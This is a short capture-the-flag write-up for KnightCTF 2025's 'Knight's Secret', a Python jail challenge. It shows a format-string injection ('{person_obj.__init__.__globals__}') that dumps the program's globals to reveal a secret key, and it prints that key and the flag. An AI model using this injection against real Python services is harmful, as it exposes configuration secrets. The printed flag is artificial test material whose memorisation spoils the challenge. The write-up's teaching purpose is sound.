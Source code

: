 ```yaml
---
title: "Knight's Secret"
description: ""
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "pwn"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#knights-secret)

Note: This was less of a typical Pwn and was a pyjail.

We connect to the server and see this:

```bash
└─$ nc 45.56.68.122 1337
==================================================
Welcome to the Knight's Secret!
The castle's vault holds a secret key, protected within the CONFIG dictionary.
You are a knight tasked with proving the strength of the vault's defenses.
To succeed, you must craft an input to reveal the hidden key within the system.
You will be provided with a user object representing a knight, with attributes 'name' and 'role'.
Once you discover the key, input it again to receive the banner of victory.

Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'
Type 'hint' if you need guidance or 'exit' to withdraw from the quest.
==================================================

Enter your secret:
```

Our aim is to find the `CONFIG` dictionary.

We can see entering just the object shows an instance, so we know this is Python:

```
Enter your secret: {person_obj}
Output: <__main__.Person object at 0x703c0aa16480>
```

Using the [PyJail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet) I use `.__init__.__globals__` to get the `CONFIG` dictionary.

```
Enter your secret: {person_obj.__init__.__globals__}
Output: {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7e23d44d78f0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/challenge/challenge.py', '__cached__': None, 'CONFIG': {'KEY': '_KNIGHTSECRET2025_'}, 'Person': <class '__main__.Person'>, 'fun': <function fun at 0x7e23d44be340>, 'main': <function main at 0x7e23d429cd60>}
```

We can then enter the secret for the flag.

```
Enter your secret: _KNIGHTSECRET2025_
Congratulations, noble knight! You have unveiled the vault's secret.
Here is your banner of victory: KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}
```

Flag: `KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}`
